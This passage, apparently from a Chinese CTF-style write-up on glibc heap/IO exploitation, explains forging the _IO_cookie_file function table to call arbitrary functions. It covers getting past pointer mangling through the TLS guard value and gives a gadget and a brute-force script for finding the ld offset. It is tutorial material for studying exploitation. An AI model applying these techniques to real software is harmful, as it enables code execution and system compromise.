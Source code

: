 所以我们只需伪造`_IO_cookie_file`结构体的函数表，就能调用任意函数。同时这里的`rdi`是可控的。如果要打getshell，可以直接构造；如果要打orw，可以利用libc中一个gadgets

```assembly
mov rdx, qword ptr [rdi + 8]; 
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20];
```

完成从可控`rdi`到可控`rdx`的转换

此外，`_IO_cookie_file`里的函数指针不能直接伪造，因为默认开启了PTR_DEMANGLE （指针保护）

```c
extern uintptr_t __pointer_chk_guard attribute_relro;
#  define PTR_MANGLE(var) \
  (var) = (__typeof (var)) ((uintptr_t) (var) ^ __pointer_chk_guard)
#  define PTR_DEMANGLE(var) PTR_MANGLE (var)
```

`__pointer_chk_guard`存在于TLS段上，将其ROR移位0x11后再与存入的地址进行异或

![image-20230811213323111](../img/IOFILE-exploit.assets/image-20230811213323111.png)

`fs[0x30]`的值位于与libc相邻的ld空间中，这个位置距离libc地址的偏移固定，可能与本地patchelf后不一致，可以通过爆破得到。因为偏移的变化值往往在地址末尾的第四个、第五个数（末三位不变），可编写如下脚本

```python
for x in range(0x10):
    for y in range(0x10):
        try:
            libc_base = 0x1234
            offset = 0x6 << 20
            offset += x << 16
            offset += y << 12
            ld_base = libc_base + offset
            log.success("try offset:\t" + hex(offset))
            # your code
            sh.interactive()
        except EOFError:
            sh.close()
```
